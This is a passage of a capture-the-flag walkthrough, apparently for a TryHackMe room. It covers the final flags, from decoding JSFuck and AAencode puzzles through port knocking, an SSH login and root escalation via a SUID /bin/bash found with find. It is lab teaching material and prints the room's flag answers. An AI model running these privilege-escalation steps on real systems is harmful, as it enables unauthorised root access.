(ﾟΘﾟ)) ('_');
~~~

Decode AAENCODE with https://cat-in-136.github.io/2010/12/aadecode-decode-encoded-as-aaencode.html:

~~~
flag 94: cqfbv9f1mbgz4ws2l7a1
ssh user: guest
~~~

# #15 - Flag 95

*Hint: encode name starts with J*

~~~
$ cat flag95 
$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"(\\\""+$.$$$$+(![]+"")[$._$_]+$.$_$_+"\\"+$.__$+$.$__+$.$$$+"\\"+$.$__+$.___+$.$__$+$.$_$+"\\"+$.$__+$.___+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$$_+$._$$+"\\"+$.$__+$.___+"\\"+$.__$+$.$$_+$.__$+"\\"+$.__$+$.$$$+$.__$+$.___+"\\"+$.__$+$.$$_+$.__$+$.$_$+(![]+"")[$._$_]+$.$__+"\\"+$.__$+$.$$$+$.__$+$._+$._$+$.$_$$+$.$_$+$.$_$+$._$+"\\"+$.__$+$.$_$+$._$_+"\\"+$.__$+$.$$_+$.__$+$._$$+$.__+$._$$+"\\"+$.__$+$.$$$+$._$_+"\\"+$.$__+$.___+$.$_$_+"\\"+$.__$+$.$_$+$.$$_+$.$$_$+"\\"+$.$__+$.___+"\\"+$.__$+$.$$_+$._$$+"\\"+$.__$+$.$$_+$._$$+"\\"+$.__$+$.$_$+$.___+"\\"+$.$__+$.___+"\\"+$.__$+$.$$_+$.___+$.$_$_+"\\"+$.__$+$.$$_+$._$$+"\\"+$.__$+$.$$_+$._$$+"\\"+$.$__+$.___+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$$_+$._$$+"\\"+$.$__+$.___+$.__+"\\"+$.__$+$.$_$+$.___+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$$_+$._$$+"_\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$$_+$._$$+"_"+$.__+"\\"+$.__$+$.$_$+$.___+$.$$$_+"_"+$.$$$_+"\\"+$.__$+$.$_$+$.$$_+$.$$_$+"\\\"\\"+$.$__+$.___+")"+"\"")())();
~~~

Decode this JSFUCK with https://enkhee-osiris.github.io/Decoder-JSFuck/:

~~~
flag 95 is qy0q5l4yuob55ojq3t3z
and ssh pass is this_is_the_end
~~~

# #16 - Flag 96

Let's unlock the SSH port with our sequence from the ports collected (flags #88 to #93):

~~~
$ nc 10.10.89.113 9999
***************************
*   Port knocking input   *
***************************
Hi user, please enter the port sequence
The format is (can be more than 4): PORT PORT PORT PORT
> 7177 7994 7885 9932 6612 1132
Something happen
Good luck!
~~~

After scanning with Nmap, it's confirmed that a new port is now open on the server (22).

Now let's connect with the SSH credentials (username gather in flag94 and password from flag95):

~~~
$ sshpass -p "this_is_the_end" ssh guest@10.10.89.113
$ /bin/bash
bash-4.4$ ls -la
total 32
drwxr-xr-x 4 guest guest 4096 Oct  6  2019 .
drwxr-xr-x 4 root  root  4096 Oct  5  2019 ..
-rw-r--r-- 1 guest guest  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 guest guest 3771 Apr  4  2018 .bashrc
drwx------ 2 guest guest 4096 Oct  6  2019 .cache
-rw-r--r-- 1 guest guest   21 Oct  6  2019 flag96
drwx------ 3 guest guest 4096 Oct  6  2019 .gnupg
-rw-r--r-- 1 guest guest  807 Apr  4  2018 .profile
bash-4.4$ cat flag96 
obnsgucziinvx55rkns1
~~~

Flag96: `obnsgucziinvx55rkns1`

# #17 - Flag 97

*Hint: It is essential to check the privilege.*

Checking our privileges reveals flag97:

~~~
$ sudo -l
[sudo] password for guest: 
Matching Defaults entries for guest on final_destination:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User guest may run the following commands on final_destination:
    (root) /nice_try_but_wrong_path/flag97_usz5rxyulqswfvsd3k1y
~~~

Flag97: `usz5rxyulqswfvsd3k1y`

# #18 - Flag 98

Let's search for SUID files/executables owned by root:

~~~
$ find / -type f -user root -perm -u=s -executable 2>/dev/null
/snap/core/7270/bin/mount
/snap/core/7270/bin/ping
/snap/core/7270/bin/ping6
/snap/core/7270/bin/su
/snap/core/7270/bin/umount
/snap/core/7270/usr/bin/chfn
/snap/core/7270/usr/bin/chsh
/snap/core/7270/usr/bin/gpasswd
/snap/core/7270/usr/bin/newgrp
/snap/core/7270/usr/bin/passwd
/snap/core/7270/usr/bin/sudo
/snap/core/7270/usr/lib/openssh/ssh-keysign
/snap/core/7270/usr/lib/snapd/snap-confine
/snap/core/7713/bin/mount
/snap/core/7713/bin/ping
/snap/core/7713/bin/ping6
/snap/core/7713/bin/su
/snap/core/7713/bin/umount
/snap/core/7713/usr/bin/chfn
/snap/core/7713/usr/bin/chsh
/snap/core/7713/usr/bin/gpasswd
/snap/core/7713/usr/bin/newgrp
/snap/core/7713/usr/bin/passwd
/snap/core/7713/usr/bin/sudo
/snap/core/7713/usr/lib/openssh/ssh-keysign
/snap/core/7713/usr/lib/snapd/snap-confine
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/newgidmap
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/bin/mount
/bin/bash     <------------------ interesting!
/bin/umount
/bin/fusermount
/bin/ping
/bin/su
~~~

/bin/bash is a good candidate for a privilege escalation as it is owned by root and has the SUID bit set:

~~~
$ ls -l /bin/bash 
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
~~~

Time to get root access:

~~~
$ bash -p
bash-4.4# whoami
root
~~~

Let's read the flag in theend's home directory:

~~~
bash-4.4# cat /home/theend/flag98 
yw4fn0fme4wk071mxlca
~~~

# #19 - Flag 99

*Hint: Something call scheduler.*

~~~
bash-4.4# cat /root/flag99 
Flag 99 is controlled by time
bash-4.4# crontab -l
no crontab for guest
bash-4.4# cat /var/spool/cron/crontabs/root 
[REDACTED]
#flag99: rlucbw9qw3wkn43evf29
#congratulation on getting this far. If you are stuck with flag100, let me give you a hint.
#Hint: somewhere inside tryhackme website. The flag is easy but not obvious.
#Please, do not brute force or attack the site. Just find it.
~~~

Flag99: `rlucbw9qw3wkn43evf29`

# #20 - Flag 100

*Hint: The flag is outside of the machine. Somewhere called /p/ in THM*

Go to the author's home page (https://tryhackme.com/p/DesKel). Flag 100 is here :)



Flag 100: `1bzx8d959xy8t18rxsri`